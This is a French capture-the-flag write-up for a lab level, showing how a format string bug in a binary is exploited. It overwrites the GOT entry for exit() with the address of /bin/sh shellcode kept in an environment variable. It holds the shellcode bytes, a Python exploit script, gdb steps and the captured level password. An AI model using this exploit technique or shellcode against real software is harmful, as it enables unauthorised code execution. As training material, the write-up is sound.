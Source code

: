 En examinant le binaire, nous pouvons voir qu'un appel a printf est effectue puis juste apres, un appel a exit.
Le printf ne prenant en parametre seulement notre entree (dans un buffer de 100 bytes) nous pouvons en deduire
qu'une faille format string est presente dans le programme. Pour en avoir le coeur net il suffit d'envoyer
"%x" au binaire, et de voir si une addresse de la stack s'affiche. C'est le cas. Notre programme est 
donc vulnerable aux formats strings.

Le flag du user 06 n'est pas present sur la stack (comme lors d'un precedent level), inutile donc de dumper la memoire.
Nous ne pouvons pas ecraser EIP, car un appel a exit() est fait juste apres notre appel a printf(). 

Un moyen efficace d'exploiter une format string suivie d'un appel a exit(), est d'ecraser l'adresse GOT (Global Offset
Table) de l'appel systeme exit() pour la remplacer par l'adresse d'un eventuel shellcode stocke sur la stack. (la stack
etant executable ici...)

Commencons par recuperer l'adresse nous permettant de reecrire sur la GOT :

	$ gdb level05
	$ disas main
	$ disas 0x8048370
	$ x 0x80497e0

Nous avons donc l'adresse necessaire: 0x80497e0

Maintenant nous allons stocke notre shellcode dans une variable d'environnement et recuperer son adresse (soit avec gdb soit avec getenv.c)

	export TOTO=`python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`
	
Maintenant il va falloir reecrire l'adresse 0x80497e0 par celle de notre shellcode. Nous devons ecrire 2 bytes par 2 bytes plutot que les 4 bytes d'un coup. Cela prendra beaucoup moins de temps. 

Le plus propre est d'utiliser python pour creer son exploit, avec la librairie struct.

En testant des valeurs arbitraires (comme des 'AAAABBBBCCCC') on se rend compte que nos valeurs sont stocke a l0eme adresse de la stack

/Ressources/exp.py : 

	import struct

	EXIT_PLT = 0x80497e0
	SHELLCODE = 0xffffde31

	def pad(s):
		return s+"X"*(100-len(s))

	exploit = ""
	exploit += struct.pack("I", EXIT_PLT)		# 0x80497e0
	exploit += struct.pack("I", EXIT_PLT+2)		# 0x80497e2
	exploit += "%4$56935x"           		# 2 derniers byte de l'adresse de notre shellcode (en decimal) auquel on soustrait 17 (padding)
	exploit += "%10$n "*10
	exploit += "%8987006x"           		# bidouiller jusqu'a obtenir 0xffff
	exploit += "%11$n"*10

	print pad(exploit)

Pour verifier a quoi ressembler l'adresse que nous reecrivons entre chaque modification :

	$ python /tmp/exp.py > /tmp/pay
	$ gdb level05
	$ b*main+207
	$ r < /tmp/pay
	$ x 0x80497e0

Nous arrivons donc a reecrire (2 bytes par 2 bytes) l'adresse de exit() sur la GOT. Le tour est joue.

	python /tmp/exp.py > /tmp/pay
	cat /tmp/pay - | ./level05
	

	$whoami
	=> level06
	
	$cat /home/users/level06/.pass
	=> h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

